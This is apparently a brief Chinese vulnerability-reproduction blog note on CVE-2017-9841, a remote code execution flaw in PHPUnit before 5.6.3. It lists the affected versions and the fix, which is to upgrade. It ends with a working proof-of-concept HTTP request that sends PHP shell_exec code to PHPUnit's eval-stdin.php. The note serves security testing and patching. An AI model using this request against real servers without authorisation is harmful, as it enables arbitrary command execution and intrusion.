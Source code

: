 ```yaml
---
layout: post
title: PHPUnit代码执行
abbrlink: 3dbd596907754b9fb4eb5dc421125d48
tags: []
categories:
  - 漏洞挖掘与复现
  - 开发框架
date: 1735134924093
updated: 1735296482503
---
```


```python
CVE-2017-9841

漏洞简介
	PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限

漏洞影响
	PHPUnit < 5.6.3
	
整改建议
	升级最新版
```

```python
GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 

<?=shell_exec("whoami");?>
```

> 更新: 2023-04-14 23:05:55\
> 原文: <https://www.yuque.com/yuqueyonghuwrqimt/vtxvff/qnfw3m>
